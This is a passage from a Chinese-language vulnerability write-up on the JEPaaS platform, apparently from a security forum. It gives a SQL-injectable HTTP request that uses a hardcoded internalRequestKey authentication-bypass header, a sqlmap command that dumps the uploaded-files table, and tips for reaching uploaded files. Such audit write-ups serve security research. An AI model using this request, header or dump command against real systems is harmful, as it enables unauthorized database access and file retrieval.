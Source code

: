 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-c5aacb5832eb45d0ba33bd7cb2f7c09c2a0ee0ab.png)

三、SQL注入
=======

后面去翻了自带的sql文件，发现在je\_document\_file​​表中会记录存储上传的文件，包括完整路径，正好之前审计的时候看代码也发现了有很多地方的sql语句都是直接拼接的，可以直接注入，这里我随便找了一个

```java
POST /rbac/im/accessToTeanantInfo HTTP/1.1
Host: xxxxx
Accept-Language: zh-CN,zh;q=0.9
internalRequestKey: schedule_898901212
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Cookie: je-local-lang=zh_CN; JSESSIONID=155BD0DA95609068A00408ACF1326C63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

tenantId=1
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-2aac57a14330cc62cf183ae7654e6f0fac608cf5.png)

利用sqlmap直接跑可以出数据

```java
sqlmap -r 2.txt --level 3 -D "jepaas" -T "je_document_file" --dump --fresh-queries
```

​--fresh-queries​​是因为sqlmap可能有缓存，数据不刷新，导致找不到文件名。

四、要注意的几个点
=========

一、数据库不一定就是默认的jepass，有可能会变

二、文件上传的bucket不同会影响是否能够在页面访问，比如webroot可以解析到页面上，disk-oss则不行，如下图。并且我尝试了他系统的一些文件也是如此，当然不排除是这个站的一些配置的原因。但是如果碰到这种配置的话就不能够利用disk那个上传接口，因为默认写死了就是disk-oss

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-c412fa799b2a328be9e0c3ad10803cdd710900f0.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-955245996c5473e3420ef9d4150573f28c441bd0.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-7e5bc623633e19c94cf83cd525b0a96657ac3e13.png)

所以我个人还是建议采用document这个接口，因为这个接口的bucket是可控的

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-e1d2e6452faa97b11dfcc5eedd5fd23488089e3d.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-11c108725c92d898bef0da081704da79451e7b31.png)

时间都是能对上的

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-67f993d9214523ac431a6adc68e9fdeb14a7c0e8.png)

三、访问文件也需要带上那个`internalRequestKey: schedule\_898901212`header头去访问，不然过不了认证
